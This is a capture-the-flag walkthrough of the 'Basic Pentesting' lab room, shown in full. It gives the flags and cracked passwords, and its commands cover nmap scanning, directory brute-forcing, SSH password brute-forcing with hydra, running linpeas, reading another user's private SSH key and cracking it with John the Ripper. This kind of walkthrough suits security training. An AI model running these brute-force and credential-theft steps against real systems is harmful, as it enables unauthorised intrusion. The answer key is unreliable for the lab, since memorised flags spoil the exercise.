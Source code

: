 # Basic Pentesting

### #1 Deploy the machine and connect to our network
Clicked on deploy
Connect to vpn
```
sudo openvpn yourOVPNfile.ovpn
```

### #2 Find the services exposed by the machine
Run a nmap scan to get all the open ports

```
nmap -sV -sC <ip>

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```
### #3 What is the name of the hidden directory on the web server(enter name without /)?
To do this we can run dirbuster, supply a dir dictonary and press start.

```
dirbuster http://<ip>

Dir	/icons/	403	465
Dir	/development/	200	1320
```
**Answer**

development

### #4 User brute-forcing to find the username & password

```
enum4linux -v <ip>

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

### #5 What is the username?
After having a look in http://<ip>/development we found out that jan has a week password.

**Answer**

jan

### #6 What is the password?
Bruteforceing jan's week password using rockyou word list.
```
hydra -l jan -P rockyou.txt ssh://<ip>
ctrl+C
hydra -R (to speed it up)

[22][ssh] host: <ip>  login: jan   password: armando
```

**Answer**

armando

### #7 What service do you use to access the server(answer in abbreviation in all caps)?
Did a BF with hydra on SSH

**Answer**

SSH

### #8 Enumerate the machine to find any vectors for privilege escalation
Send the linpeas script to jan. Make it an excecutible. And run it.
```
scp linpeas.sh jan@<ip>:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```
Here we can see that we have access to read kay's **id_rsa** file.

### #9 What is the name of the other user you found(all lower case)?

**Answer**

kay

### #10 If you have found another user, what can you do with this information?
Copy the rsa key. Run ssh2john on that file so JohnTheRipper can read it. BF using rockyou word list.
```
cat /home/kay/.ssh/id_rsa
/usr/share/john/ssh2john.py
sudo john id_rsa_kay_tojohn.txt --wordlist rockyou.txt

beeswax          (id_rsa_kay)
```

**Answer**

beeswax

### #11 What is the final password you obtain?
Login to the server using kay's credentials. Print out the pass.bak file.
```
cat pass.bak
```

**Answer**

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
